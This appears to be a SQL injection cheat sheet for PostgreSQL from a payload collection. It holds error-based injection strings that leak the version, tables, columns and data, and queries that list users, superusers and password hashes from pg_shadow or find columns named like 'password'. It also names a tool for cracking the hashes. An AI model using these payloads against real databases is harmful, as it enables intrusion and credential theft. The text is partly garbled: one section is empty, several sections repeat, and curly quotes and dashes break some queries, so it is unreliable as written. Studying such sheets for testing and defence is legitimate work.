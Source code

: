 # PostgresSQL

## PostgreSQL Comments
```
--
/**/ 
--------------------------------------------------
SELECT 1; –comment
SELECT /*comment*/1;
```

## PostgreSQL Error Based - Basic
```
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name=data_column+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)
```
## PostgreSQL Time Based


# ----------------------------------------------------------

### Version	
``` 
SELECT version()
```
### Comments	
```
SELECT 1; –comment
SELECT /*comment*/1;
```
### Current User	
```
SELECT user;
SELECT current_user;
SELECT session_user;
SELECT usename FROM pg_user;
SELECT getpgusername();
```
### List Users	
```
SELECT usename FROM pg_user
```
### List Password Hashes
```
SELECT usename, passwd FROM pg_shadow — priv
```
### Password Cracker	
```
MDCrack can crack PostgreSQL’s MD5-based passwords.
```
### List Privileges	
```
SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user
```
### List DBA Accounts
```
SELECT usename FROM pg_user WHERE usesuper IS TRUE
```
### Current Database	
```
SELECT current_database()
```
### List Databases	
```
SELECT datname FROM pg_database
```
### List Columns	
```
SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’)
```
### List Tables	
```
SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN (‘r’,”) AND n.nspname NOT IN (‘pg_catalog’, ‘pg_toast’) AND pg_catalog.pg_table_is_visible(c.oid)
Find Tables From Column Name	If you want to list all the table names that contain a column LIKE ‘%password%’:SELECT DISTINCT relname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’) AND attname LIKE ‘%password%’;
```
List Tables	
```
SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN (‘r’,”) AND n.nspname NOT IN (‘pg_catalog’, ‘pg_toast’) AND pg_catalog.pg_table_is_visible(c.oid)
```
### Find Tables From Column Name	
```
If you want to list all the table names that contain a column LIKE ‘%password%’:SELECT DISTINCT relname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’) AND attname LIKE ‘%password%’;
```
### Select Nth Row	
```
SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 0; — rows numbered from 0
SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 1;
```
### Select Nth Char	
```
SELECT substr(‘abcd’, 3, 1); — returns c
```
### Bitwise AND	
```
SELECT 6 & 2; — returns 2
SELECT 6 & 1; –returns 0
```
### ASCII Value -> Char	
```
SELECT chr(65);
```
### Char -> ASCII Value	
```
SELECT ascii(‘A’);
```
### Casting	
```
SELECT CAST(1 as varchar);
SELECT CAST(’1′ as int);
```
### String Concatenation	
```
SELECT ‘A’ || ‘B’; — returnsAB
```
### If Statement	
```
IF statements only seem valid inside functions, so aren’t much use for SQL injection.  See CASE statement instead.
```
### Case Statement	
``` 
SELECT CASE WHEN (1=1) THEN ‘A’ ELSE ‘B’ END; — returns A
```
### Avoiding Quotes	
```
SELECT CHR(65)||CHR(66); — returns AB
```
## References:
http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet

